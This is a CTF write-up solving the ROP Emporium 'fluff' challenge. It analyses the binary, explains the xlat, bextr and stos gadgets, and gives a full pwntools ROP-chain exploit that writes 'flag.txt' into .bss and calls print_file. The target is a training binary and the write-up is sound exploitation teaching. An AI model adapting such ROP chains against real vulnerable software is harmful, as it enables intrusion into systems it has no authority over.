



# "fluff" ROPEmporium Challenge 6 Writeup

This challenge is a bit more demanding.

## Analysis

We start out with our basic checks.

```sh
file fluff
# fluff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2b14d9e5fb7a6bcac48b5304b5153fc679c3651c, not stripped

file libfluff.so
# libfluff.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=6a8994a29245b82957c3c857ed72dd1f863f6d3b, not stripped

checksec --file=fluff
# [*] '/home/testikus/code/rop-emporium/6-fluff/fluff'
#    Arch:     amd64-64-little
#    RELRO:    Partial RELRO
#    Stack:    No canary found
#    NX:       NX enabled
#    PIE:      No PIE (0x400000)
#    RUNPATH:  b'.'

checksec --file=libfluff.so
# [*] '/home/testikus/code/rop-emporium/6-fluff/libfluff.so'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    No canary found
#     NX:       NX enabled
#     PIE:      PIE enabled

rabin2 -z fluff
# [Strings]
# nth paddr      vaddr      len size section type  string
# ―――――――――――――――――――――――――――――――――――――――――――――――――――――――
# 0   0x000006c4 0x004006c4 11  12   .rodata ascii nonexistent

rabin2 -z libfluff.so
# [Strings]
# nth paddr      vaddr      len size section type  string
# ―――――――――――――――――――――――――――――――――――――――――――――――――――――――
# 0   0x000009e0 0x000009e0 21  22   .rodata ascii fluff by ROP Emporium
# 1   0x000009f6 0x000009f6 7   8    .rodata ascii x86_64\n
# 2   0x00000a00 0x00000a00 71  72   .rodata ascii You know changing these strings means I have to rewrite my solutions...
# 3   0x00000a4b 0x00000a4b 10  11   .rodata ascii Thank you!
# 4   0x00000a58 0x00000a58 24  25   .rodata ascii Failed to open file: %s\n
```

Looking at the disassembly (`objdump -d`) next we learn that there is a `pwnme`
and a `print_file` function in the `libfluff.so` and not much in the `fluff`
executable.

The `main` function's only job is to invoke `pwnme@plt`.

We also discover some "questionable" gadgets.
Be aware that `radare2` with the command `afl` won't list this procedure,
since it is never called in the application, therefore `radare2` can't find
any path leading to it.
However, when searching for gadgets, like `/R pop rdx`, it will still appear in
the output.

```sh
objdump -d fluff
# 0000000000400628 <questionableGadgets>:
#   400628:       d7                      xlat   %ds:(%rbx)
#   400629:       c3                      retq
#   40062a:       5a                      pop    %rdx
#   40062b:       59                      pop    %rcx
#   40062c:       48 81 c1 f2 3e 00 00    add    $0x3ef2,%rcx
#   400633:       c4 e2 e8 f7 d9          bextr  %rdx,%rcx,%rbx
#   400638:       c3                      retq
#   400639:       aa                      stos   %al,%es:(%rdi)
#   40063a:       c3                      retq
#   40063b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
```

Let's look up what these instructions do in the AMD64 Programmer's Manual
[available here](https://www.amd.com/en/support/tech-docs/amd64-architecture-programmers-manual-volumes-1-5).

## xlat



In short: the `xlat` instruction takes whatever byte value is stored at the
address pointed to by $rbx+$al and stores it into the $al register.

Searching for gadgets with `radare2`'s `/R/ xor [er]?a[lx], [er]?a[lx]`
command, there does not seem to be any obvious way to zero out the `al`
register.

This means, we need to take the initial value of $al into account.
When we call this gadget multiple times, we need to remember how $al changed
in between, to calculate the correct value to put into $rbx.

GDB shows us (`x/x $al`) the value of $al at the `ret` of `pwnme` is `0xB`.

Gadgets are generally harder to find in this challenge.
For example, there is no obvious way to set the $rbx register.
Although, let's look at what `bextr` does.

## bextr



`bextr` copies the contents of the $rdx register over into the $rbx register.
Turns out we can control $rbx after all, although in a somewhat indirect way.

How exactly $rdx is copied depends on $rcx.
We set the least significant bit to zero, indicating that copying should start
at index 0 (the first bit of $rdx).
We want to copy the entire register, or `0x40` (decimal 64) bits.

```
15       8 7       0
 0100 0000 0000 0000
 --------- ---------
      0x40      0x00
```

So the correct value for `cntl` or $rcx is 0x4000.

## stos



`stos` reads whatever byte is stored in the $al register and stores it into
the location pointed to by $rdi.

Note that this instruction automatically increments $rdi.

## Writing a String Into Memory

With the above instructions we are able to take what is stored at one address
and copy it into another address.
But of what use is this to us?

Since there is no "flag.txt" string we could pass to `print_file@plt` we have
to build one out of other, existing strings.

```
r2 fluff
> / fl
# hits: 1
# 0x004003c4 hit4_0 .libfluff.so__gmon_st.

> / a
# hits: 7
# 0x004003d6 hit5_0 .uff.so__gmon_start__print_file.
# ...

> / g
# hits: 2
# 0x004003cf hit6_0 .libfluff.so__gmon_start__prin.
# 0x004007a0 hit6_1 .*3$"XgAC.

# And so on...
```

The plan: copy the characters we need from wherever we can find them into a
continuous block of memory in the `.bss` section.

```sh
objdump -h fluff
# Sections:
# Idx Name          Size      VMA               LMA               File off  Algn
#  23 .bss          00000008  0000000000601038  0000000000601038  00001038  2**0
#                   ALLOC
```

## Scripting

First, we write some helper functions for the individual gadgets to make our
work easier.

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'

DEBUG = True

process_name = './fluff'
elf = ELF(process_name)

if DEBUG:
    p = gdb.debug(process_name, '''
    display/s 0x00601038
    b *pwnme+89
    b *questionableGadgets+18
    ''')
else:
    p = process(process_name)

# keeps track of $AL's value
CURRENT_AL = 0xB

def set_rbx(val):
    bextr = 0x0040062a
    cntl = 0x4000 # copy all bytes (start at the 0th bit and copy up to 64 bits)
    src =  val - 0x3ef2
    # takes care of negative numbers
    rbx_str = p64(src) if src >= 0 else p64(struct.unpack('<Q', struct.pack('<q', src))[0])
    payload = p64(bextr) + p64(cntl) + rbx_str
    return payload

def set_rdi(val):
    payload = p64(0x004006a3) + p64(val)
    return payload

def copy_byte(ch, src, dst = None):
    global CURRENT_AL
    xlat = 0x00400628
    stos = 0x00400639
    payload = set_rbx(src - CURRENT_AL) + p64(xlat)
    # $rdi is auto incremented, we only have to set it the first time
    # this is neat, as it also saves us some quad words, our entire payload
    # mustn't be bigger than 512 bytes!
    if dst is not None:
        payload += set_rdi(dst)
    payload += p64(stos)
    CURRENT_AL = ch # DON'T FORGET TO UPDATE $AL
    return payload

BSS = 0x00601038 # .bss
#       f           l           a           g           .           t           x           t
srcs = [0x004003c4, 0x004003c5, 0x004003d6, 0x004007a0, 0x00400553, 0x00400192, 0x00400725, 0x00400192]
dsts = [BSS,        None,       None,       None,       None,       None,       None,       None]

payload = b'A'*40
for i, c in enumerate(b'flag.txt'):
    payload += copy_byte(c, srcs[i], dsts[i])

payload += set_rdi(BSS)
payload += p64(elf.sym['print_file'])

print(len(payload)) # must not be bigger than 512

with open('payload.txt', 'wb') as f:
    f.write(payload)

p.recvuntil('> ')
p.clean()

p.sendline(payload)
p.clean()
p.interactive()
```

Running this produces the flag:

```sh
python3 exploit.py
# fluff by ROP Emporium
# x86_64
# 
# You know changing these strings means I have to rewrite my solutions...
# > Thank you!
# ROPE{a_placeholder_32byte_flag!}
# Segmentation fault
```
